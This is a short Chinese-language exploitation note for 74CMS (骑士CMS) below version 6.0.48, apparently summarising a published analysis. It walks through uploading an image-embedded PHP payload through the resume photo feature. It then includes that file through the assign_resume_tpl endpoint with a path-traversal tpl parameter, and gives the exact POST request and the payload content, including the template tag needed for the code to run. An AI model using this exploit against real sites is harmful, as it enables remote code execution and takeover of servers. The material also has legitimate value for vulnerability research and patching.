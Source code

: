 ## 影响范围

```http
骑士CMS < 6.0.48
```

## 漏洞利用

首先在前台注册一个普通用户，然后更新简历：
![[qishi1.png]]

![](qishi1.png)
完成简历更新后，上传照片：
![](qishi2.png)
在上传图片马后，会生成图片地址：
![](qishi3.png)
复制路径，通过 a 方法调用assign_resume_tpl函数，再通过 POST 的方式提交该路径，即可包含成功

```
http://192.168.159.208/index.php?m=home&a=assign_resume_tpl
POST:
variable=1&tpl=../../../../var/www/html/data/upload/resume_img/2011/13/5fae95e469e05.jpg
```
如下图所示：
![](qishi4.png)

值得一提的是，通过上面的分析我们可以知道，在解析模板的时候，不是解析原生的 PHP 代码，因此如果图片马是纯 PHP 代码是无法利用成功的，必须要包括骑士 CMS 模板文件的标签，我们可以随便打开一个原有模板，然后复制一句话即可，如：/Application/Home/View/tpl_company/default/com_jobs_list.html

```
<qscms:company_show 列表名="info" 企业id="$_GET['id']"/>
```
![](qishi5.png)

因此最终的图片马所要包含的内容应该是：

```
<?php phpinfo(); ?>
<qscms:company_show 列表名="info" 企业id="$_GET['id']"/>
```
另外一点，骑士 CMS 对于图片上传是有过滤的，所以需要绕过技巧，具体可以自行研究，当然你也可以考虑上传 docx 或者其他类型的文件，对于包含的结果是没有影响的

## 参考链接

[@panda](https://xz.aliyun.com/t/8520)